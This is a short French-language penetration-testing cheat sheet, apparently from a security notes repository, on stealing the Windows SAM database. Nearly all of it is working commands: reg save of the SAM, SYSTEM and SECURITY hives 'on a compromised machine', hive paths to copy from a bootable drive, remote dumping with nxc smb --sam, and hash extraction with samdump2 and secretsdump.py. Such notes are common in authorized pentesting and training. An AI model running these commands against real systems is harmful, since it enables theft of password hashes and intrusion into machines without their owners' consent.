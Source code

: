 # Base SAM

### Récupérer la base SAM

#### Depuis un compte "administrateur local" sur le poste compromis

En PowerShell sur une machine compromise, il faut exécuter les commandes suivantes :

```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

#### Depuis la partition Windows montée sur une clé bootable

Copier les fichiers SAM, SECURITY et SYSTEM sur un média amovibles.

```
# Chemin des fichiers
Windows/System32/config/SAM
Windows/System32/config/SECURITY
Windows/System32/config/SYSTEM
```

#### Depuis le réseau

```
# Avec un compte "admin" local

nxc smb <IP> -u <USER> -p <PASS> --sam
nxc smb <IP> --use-kcache --sam
```

### Extraire les _hashs_

```
samdump2 system sam
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL # Fonctionne pour W10 et W11
```

